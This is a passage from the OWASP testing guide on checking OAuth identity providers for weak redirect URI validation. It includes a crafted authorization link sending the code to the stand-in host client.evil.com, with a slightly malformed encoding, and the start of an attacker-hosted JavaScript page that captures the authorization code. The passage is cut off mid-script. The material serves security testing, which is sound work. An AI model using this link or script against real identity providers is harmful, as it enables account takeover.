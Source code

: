 # Testing OAuth IdP Weaknesses

|ID            |
|--------------|
|WSTG-ATHZ-05.1|

## Summary

OAuth stores the identities of users and the correspondent access rights at the IdP (Identity Provider). The IdP does play a crucial role during the OAuth flow as it grants access to clients. To be able to do that it must properly validate parameters which are part of the OAuth flows.

Failure to validate the parameters may lead to  account takeover, unauthorized resource access and the elevation of privileges.

## Test Objectives

- Retrieve credentials used for authorization
- Grant yourself access to arbitrary resources trough forceful browsing
- Bypass the authorization

## How to test

### Testing for insufficient Redirect URI Validation

The OAuth flow makes use of a `redirect_uri` in the authorization request. If this uri is not properly validated a link can be crafted that contains a attacker controlled URL, `client.evil.com` in this example.

- `
https://Idp.example.com/auth/realms/example/protocol/openid-connect/auth?client_id=app-angular2&redirect_uri=http%3A%2F%client.evil.com%2Fapp-angular2%2F&state=19abbae7-79cb-4e82-8ea1-897d98251f4e&response_mode=fragment&response_type=code&scope=openid&nonce=636db683-18ba-4c92-a56f-a7f7ccd772ce HTTP/1.1
`

If a user opens the link in the user-agent, the IdP will redirect the user agent to the spoofed URL.
The attacker can host a script on the spoofed URL that captures the `code` value and submits it back to the IdP's token endpoint.  

This can be archived with the following sample code hosted at the attacker controlled server.
Note: This JavaScript is compatible with Keycloak, other IdPs may need tweaking of the requests.
Furthermore the attack will fail when the IdP has CORS configured and blocks cross-origin requests.

If CORS is configured a setup involving server side technologies such as a python app, that allow the spoofing of the origin header, are required.

```JavaScript
<html>
    <body>
    <head>
        <title>OAuth open redirects</title>
    </head>
<h3>OAuth code: </h3>

<p id="code"></p>

<script>
    
    var keycloak_url = "idp.example.com"
    var client_id = "MY_CLIENT_ID"
    var redirect_uri = "MY_REDIRECT_URI"
    var hash = location.hash.substring(1);
```